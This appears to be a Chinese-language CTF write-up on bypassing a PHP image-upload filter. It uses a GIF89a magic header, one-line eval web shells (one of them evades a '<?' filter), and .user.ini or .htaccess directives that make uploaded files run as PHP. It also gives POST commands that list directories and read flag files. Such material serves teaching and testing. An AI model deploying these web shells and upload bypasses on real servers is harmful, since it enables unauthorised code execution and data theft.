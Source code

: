 @[toc]

##  前言

由这个题和MRCTF中的`我传你吗`这两个题总结`.htaccess`和`.user.ini`绕过文件上传

##  wp

首先这个题就是用`.user.ini`或者`.htaccess`来绕过

我们传png文件，看到exif_imagetype:not image!

```
exif_imagetype，就是用来检查图像类型的
```

必须要gif文件，但是我们在文件内容上加个魔法头GIF89a,就可以绕过

我们用后缀为`.user.ini`或者`.htaccess`，发现只要加个魔法头都可以传进去

本来是直接用

```php
<?php
    eval($_post[1]);   
?>
```

但是不行，返回contents有问题，说明对文件内容进行了过滤

我手工FUZZ了一下，`<?`被过滤了，其他都应该没有

然后换了个[一句话木马](https://blog.csdn.net/weixin_39190897/article/details/86772765)

```
<script language='php'>eval($_POST[1]);</script>
```

我们可以传1.png文件进去，文件内容

```
GIF89a
一句话木马
```

再传.user.ini文件

```
文件内容
auto_prepend_file=/var/www/html/upload/....(路径)
auto_append_file=/var/www/html/upload/....(路径)
```

然后用蚁剑连接或者直接访问url，用命令执行

```
POST:1=var_dump(scandir("/"));找路径
然后1=var_dump(system("cat /f*"));
```

如果是.htaccess

只需要把文件内容改一下

```
SetHandler application/x-httpd-php,把全部文件都指定为php文件执行。
```

##  .user.ini绕过

[.user.ini文件构成的PHP后门 - phith0n (wooyun.js.org)](https://wooyun.js.org/drops/user.ini文件构成的PHP后门.html)

##  .htaccess绕过

[[CTF\].htaccess的使用技巧总结_Y4tacker的博客-CSDN博客](https://blog.csdn.net/solitudi/article/details/116666720)
